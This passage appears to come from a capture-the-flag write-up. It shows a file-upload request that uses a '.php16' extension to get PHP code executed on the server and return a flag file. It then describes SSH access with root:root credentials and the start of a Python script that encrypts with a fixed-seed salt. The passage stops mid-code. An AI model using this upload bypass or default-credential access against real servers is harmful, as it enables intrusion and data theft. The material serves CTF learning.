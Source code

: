 Then, uploading any file with the `.php16` extension results in RCE, and we can download the flag..

```http
Content-Disposition: form-data; name="fileName"; filename="test.php16"
Content-Type: text/html

<?php
$file = '/flag.png';

if (file_exists($file)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($file).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}
?>
```

### Port 20123 \[Crypto]

This was an SSH port, which we could access with `root:root`. In the `/challenge` directory, there was an encrypted flag and the Python program used to encrypt it.

```python
import argparse
import random
import base64
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
DEBUG = False
UNKNOWN_ERROR = 1001


def get_salt(seed=1337):  # Need a seed so the salt stays the same
    try:
        generator = random.Random(seed)
        if DEBUG:
            print(generator.getstate())
        return generator.randbytes(32)
    except:
        return UNKNOWN_ERROR


def get_token():
    try:
        generator = random.SystemRandom()
        if DEBUG:
            print(generator.getstate())
        return generator.randbytes(32)
    except:
        return UNKNOWN_ERROR


def encrypt_flag(file):
    kdf = PBKDF2HMAC(
        algorithm=hashes.SHA256(),
        length=32,
        salt=get_salt(),
        iterations=100000,
```